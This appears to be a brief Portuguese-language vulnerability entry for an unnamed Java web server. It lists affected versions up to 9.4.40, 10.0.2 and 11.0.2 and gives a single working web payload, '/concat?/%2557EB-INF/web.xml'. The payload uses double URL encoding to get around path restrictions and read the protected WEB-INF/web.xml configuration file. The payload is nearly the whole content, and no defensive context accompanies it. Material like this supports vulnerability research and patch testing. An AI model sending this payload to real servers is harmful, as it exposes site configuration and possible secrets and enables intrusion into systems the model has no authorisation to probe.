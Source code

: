 <languages />

Versão afetada
--------------

    <= 9.4.40, <= 10.0.2, <= 11.0.2

Payload
-------

    /concat?/%2557EB-INF/web.xml